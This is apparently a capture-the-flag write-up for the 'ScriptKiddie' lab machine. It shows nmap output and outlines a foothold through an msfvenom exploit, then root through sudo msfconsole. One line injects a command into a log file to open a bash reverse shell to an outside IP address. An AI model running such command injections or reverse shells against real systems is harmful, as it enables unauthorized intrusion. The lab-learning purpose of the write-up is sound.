









# ScriptKiddie
## Enumeration
- ```Nmap```
```
└─$ nmap -sC -sV -Pn 10.10.10.226  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 19:55 BST
Nmap scan report for 10.10.10.226 (10.10.10.226)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c656bc2dfb99d627427a7b8a9d3252c (RSA)
|   256 b9a1785d3c1b25e03cef678d71d3a3ec (ECDSA)
|_  256 8bcf4182c6acef9180377cc94511e843 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.63 seconds

```
- Web server


## Foothold
- I tried different payloads for command injection, but none of them worked
  - So I checked if there are any exploit for any of the services running



- But we don't have a version of the `mfsvenom`
  - So let's try the exploit anyway
  - We can generate payload using `msfconsole` or python script
  - I chose `msfconsole` since it was easier to do




- Generate payload
  - Upload it and launch it


## User
- We can read `pwn`'s directory
  - Upon scanning we see `scanlosers.sh` script, which looks like automated job since it saves output to `recon` folder
  - We can edit the script
  - But we need to find the format of the lines in the input file `/home/kid/logs/hackers`



- If we grep for `hackers` in `kid`'s home directory we find the source code for the `app` and the lines of code responsible for saving the logs




- Looks like the format is `[2023-07-10 21:18:21.342176] 10.10.16.12`
  - But the file is empty, which means it get cleaned since I definitely tried command injections



- Let's try injecting the commands to the log file
  - The script cuts out the 3 column and supplies it to `nmap`, so we add 'a a 127.0.0.1' to pass the check
  - Then we have our command and comment out the rest of the command with `#`


- Let's get reverse shell
  - `echo "a a 127.0.0.1;bash -c 'bash -i >& /dev/tcp/10.10.16.12/7777 0>&1' #" > hackers`


## Root
- `pwn` has `sudo` rights



- Follow [GTFOBins](https://gtfobins.github.io/gtfobins/msfconsole/) to get a `root`



